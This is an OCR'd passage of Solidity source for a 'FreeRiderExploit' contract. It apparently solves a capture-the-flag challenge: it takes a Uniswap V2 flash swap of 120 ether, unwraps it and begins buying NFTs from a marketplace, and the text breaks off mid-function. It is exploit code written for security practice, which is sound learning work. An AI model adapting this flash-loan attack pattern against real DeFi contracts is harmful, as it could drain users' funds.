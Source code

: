 ```solidity
}

interface IERC721 {
    function setApprovalForAll(address operator, bool approved) external;

    function safeTransferFrom(
        address from,
        address to,
        uint256 tokenId
    ) external;
}

interface IERC721TokenReceiver {
    function onERC721Received(
        address _operator,
        address _from,
        uint256 _tokenId,
        bytes calldata _data
    ) external returns (bytes4);
}

contract FreeRiderExploit is IUniswapV2Callee, IERC721TokenReceiver {
    IUniswapV2Pair immutable uniswapPair;
    IWETH immutable weth;
    IFreeRiderNFTMarketplace immutable nftMarketplace;
    IERC721 immutable nft;
    address immutable attacker;
    address immutable buyer;

    constructor(
        address _uniswapPair,
        address _weth,
        address _nftMarketplace,
        address _nft,
        address _attacker,
        address _buyer
    ) {
        uniswapPair = IUniswapV2Pair(_uniswapPair);
        weth = IWETH(_weth);
        nftMarketplace = IFreeRiderNFTMarketplace(_nftMarketplace);
        nft = IERC721(_nft);
        attacker = _attacker;
        buyer = _buyer;
    }

    // 1 - Trigger flash swap from Uniswap V2
    function attack() external {
        uniswapPair.swap(120 ether, 0, address(this), hex"00");
    }

    // 2 - Uniswap V2 callback after receiving flash swap
    function uniswapV2Call(
        address,
        uint256,
        uint256,
        bytes calldata
    ) external override {
        weth.withdraw(120 ether);

        // 3 - Buy 2 NFTs for 15 ETH each
        uint256[] memory tokenIds = new uint256[](2);
        tokenIds[0] = 0;
        tokenIds[1] = 1;
```